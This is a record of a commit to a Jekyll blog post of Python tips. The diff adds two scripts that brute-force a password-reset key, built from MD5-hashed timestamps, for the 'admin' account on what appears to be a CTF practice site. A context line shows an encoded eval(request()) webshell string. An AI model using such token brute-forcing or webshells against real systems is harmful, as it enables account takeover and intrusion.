

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-11-python-tips.md, in a window 1280 px wide and 900 px high, scrolled down 2752 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 3302 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-11-python-tips.md

```diff
--- a/_posts/2015-04-11-python-tips.md
+++ b/_posts/2015-04-11-python-tips.md
@@ -171,6 +171,34 @@ print enc('eval(request("test"))','5678')
 {% endhighlight %}
 
 {% highlight python %}
+#requests模块的使用
+方法1：
+import requests
+import hashlib
+s = requests.Session()
+header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=45204efb16a5fba91c9159e1fe65b0e5'}
+for x in xrange(615, 1000):
+    pwd = hashlib.new('md5', '1417336' + str(x)).hexdigest()
+    url = 'http://1.hacklist.sinaapp.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
+    r = s.get(url, headers=header)
+    if r.content != '':
+        print r.content
+        break
+    else:
+        print '正在破解中……', pwd
+方法2：
+import requests
+import hashlib
+import time
+s = requests.Session()
+header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=45204efb16a5fba91c9159e1fe65b0e5'}
+while True:
+    pwd = hashlib.new('md5', str(int(time.time()))).hexdigest()
+    url = 'http://1.hacklist.sinaapp.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
+    r = s.get(url, headers=header)
+    time.sleep(0.8)
+    if r.content != '':
+       同上省略.....
 {% endhighlight %}
 
 {% highlight python %}
```
